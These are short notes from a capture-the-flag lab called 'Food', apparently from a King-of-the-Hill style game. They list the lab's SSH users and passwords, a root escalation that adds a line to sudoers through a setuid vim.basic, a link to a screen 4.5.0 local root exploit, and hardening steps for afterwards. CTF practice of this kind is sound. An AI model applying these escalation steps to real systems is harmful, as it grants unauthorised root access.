 Food

https://jc01.ninja/ctf/foodctf/ (I will be doing my path to exploit, see this writeup if you want throurough solution)

`ssh food@ip` passwod givemecookies
CHANGE PASSWORD
`/usr/sbin/passwd`
`/bin/su`

`ssh ramen@ip` password noodlesRTheBest
CHANGE PASSWORD

`ssh pasta@ip` password pastaisdynamic
CHANGE PASSWORD

food may be missing path, use `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`

Exploit:

`vim.basic sudoers` add `USER ALL=(ALL:ALL) ALL` then `sudo su`

Alternative:

https://www.exploit-db.com/exploits/41154
MAKE SURE YOU REMOVE THE SCRIPT AND ROOTFILE AFTER DONE

`chmod 0755 /usr/bin/screen /usr/bin/screen-4.5.0 /usr/bin/vim.basic`
`visudo` --> remove the pwfeedback
